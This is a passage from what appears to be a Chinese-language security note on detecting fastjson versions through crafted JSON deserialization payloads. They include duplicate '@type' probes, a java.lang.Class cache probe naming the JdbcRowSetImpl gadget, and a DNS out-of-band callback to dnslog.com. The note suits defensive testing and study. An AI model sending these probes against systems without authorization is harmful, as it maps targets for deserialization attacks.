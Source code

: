 2. 重复`@type`探测 (v1.2.25 - v1.2.80 vs v1.2.83)
    
    payload:
    
    ```java
    {
        "zero":{
            "@type":"java.lang.Exception",
            "@type":"org.XxException"
        }
    }
    ```
    
    - **不报错**: `1.2.24` / `1.2.83`
    - **报 错**: `1.2.25` - `1.2.80`
3. `AutoCloseable`组合探测 (v1.2.24 - v1.2.68 vs v1.2.70 - v1.2.83)
    
    payload:
    
    ```java
    {
        "zero":{
            "@type":"java.lang.AutoCloseable",
            "@type":"java.io.ByteArrayOutputStream"
        }
    }
    ```
    
    - **不报错**: `1.2.24` - `1.2.68`
    - **报 错**: `1.2.70` - `1.2.83`
4. `java.lang.Class`缓存探测 (v1.2.24 - v1.2.47 vs v1.2.48+)
    
    payload:
    
    ```java
    {
        "a": {
            "@type": "java.lang.Class", 
            "val": "com.sun.rowset.JdbcRowSetImpl"
        }, 
        "b": {
            "@type": "com.sun.rowset.JdbcRowSetImpl"
        }
    }
    ```
    
    - **不报错**: `1.2.24` - `1.2.47`
    - **报 错**: `1.2.48` - `1.2.83`

### DNS 带外请求探测

1. 利用`URL`类 (探测 < 1.2.43)
    
    payload:
    
    ```java
    {
        {"@type":"java.net.URL","val":"http://dnslog.com"}:"a"
    }
    ```
    